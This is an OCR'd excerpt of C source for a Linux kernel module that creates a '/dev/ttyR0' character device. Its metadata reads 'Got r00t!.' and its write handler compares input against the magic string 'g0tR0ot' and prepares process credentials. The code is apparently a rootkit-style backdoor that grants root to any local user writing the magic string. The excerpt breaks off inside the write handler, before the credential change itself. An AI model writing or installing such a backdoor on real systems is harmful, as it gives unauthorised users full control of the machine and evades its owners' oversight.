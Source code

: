     #define  DEVICE_NAME "ttyR0" 
    #define  CLASS_NAME  "ttyR"

    #if LINUX_VERSION_CODE > KERNEL_VERSION(3,4,0)
    #define V(x) x.val
    #else
    #define V(x) x
    #endif

    // Prototypes
    static int     __init root_init(void);
    static void    __exit root_exit(void);
    static int     root_open  (struct inode *inode, struct file *f);
    static ssize_t root_read  (struct file *f, char *buf, size_t len, loff_t *off);
    static ssize_t root_write (struct file *f, const char __user *buf, size_t len, loff_t *off);

    // Module info
    MODULE_LICENSE("GPL"); 
    MODULE_AUTHOR("pico");
    MODULE_DESCRIPTION("Got r00t!."); 
    MODULE_VERSION("0.1"); 

    static int            majorNumber; 
    static struct class*  rootcharClass  = NULL;
    static struct device* rootcharDevice = NULL;

    static struct file_operations fops =
    {
      .owner = THIS_MODULE,
      .open = root_open,
      .read = root_read,
      .write = root_write,
    };

    static int
    root_open (struct inode *inode, struct file *f)
    {
       return 0;
    }

    static ssize_t
    root_read (struct file *f, char *buf, size_t len, loff_t *off)
    {
      return len;
    }

    static ssize_t
    root_write (struct file *f, const char __user *buf, size_t len, loff_t *off)
    { 
      char   *data;
      char   magic[] = "g0tR0ot";

      struct cred *new_cred;
      
      data = (char *) kmalloc (len + 1, GFP_KERNEL);
        